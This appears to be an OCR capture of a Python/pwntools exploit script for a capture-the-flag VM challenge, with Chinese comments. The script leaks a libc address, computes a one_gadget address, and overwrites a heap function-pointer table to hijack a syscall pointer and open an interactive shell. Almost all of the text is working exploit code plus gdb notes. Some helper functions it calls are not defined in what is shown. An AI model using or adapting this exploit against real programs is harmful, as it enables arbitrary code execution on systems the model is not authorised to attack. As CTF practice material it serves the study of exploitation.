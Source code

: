 ```py
def mul_and_set(i,j):
    return b"\x07"+p8(i)+p8(j)
def real_add(i,num,num2reg):
    return set_reg(num2reg,num)+add(i,num2reg)+mul_and_set(0,15)+mov(num2reg,0)
def real_sub(i,num,num2reg):
    return set_reg(7,0x10)+set_reg(num2reg,num)+sub_and_set(i,num2reg)+mul_and_set(0,7)+mov(num2reg,0)
# leak
# oneshot: libstorage + 0x9fa0 (libc 和 libstorage 偏移固定的)
# 思路：CALL_1 CALL_2 这些用的那个 prim_table 在堆上，所以可以靠改函数指针的方法
# 先把 one_shot_addr*2+1 之类的东西放到一个寄存器里面，然后去把 (offset+1)*2 之类的存一个寄存器里面再调用 set_mem_indir 去写 syscall 指针
# 0x564951ec0da0：一堆函数指针 0x0000564951ebefa0：我们溢出的buffer
# gdb attach 上看偏移 reg0:0x7f933c3ee36a one_shot: 0x7f933c4f7fa0
# 堆偏移 0x556209a26a58（syscall） 0x556209a23fa0
#gdb.attach(p)
heap_offset=0x557
offset=0x109c34 # 16*0x109c3 不确定在 mov8 之后是不是真的 offset
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
p.recvuntil(":\n")
s=load(17,0)+set_reg(2,0x10)+mul_and_set(0,2)+get_reg(0,0)+mov(8,0)+set_reg(15,0x8) # 到这里的时候 reg0 是一个 libc 地址
# 凑 0x109c3
s+=set_reg(2,0x20)+set_reg(3,0xff)+set_reg(4,0xff)+mul_and_set(3,4)+mul_and_set(0,2)+mov(9,0)+set_reg(6,0x6f)+mul_and_set(6,3)+set_reg(7,0x48)+add_and_set(0,7)+add_and_set(0,9)+mul_and_set(0,15) # 下来是0x109dc 左右
s+=set_reg(3,0x80)+mul_and_set(3,0) # 得到一个 0x109c40*2 之类的数
s+=mov(4,0)+add_and_set(8,4)+mul_and_set(0,2)+mov(14,0)+get_reg(14,0)+real_sub(14,14,13) # 再调一下 感觉差不多是两倍 oneshot 的地址了，这个数//2再减7就是了 todo 改成28
# 凑堆上偏移
s+=set_reg(3,0xff)+set_reg(4,0x2a)+mul_and_set(3,4)+set_reg(5,0x48)+add_and_set(0,5)+get_reg(0,0) # 现在大概是 0x558 吧
s+=mul_and_set(0,15)+set_mem_indir(0,13)+syscall()
p.send(s)
p.interactive()
```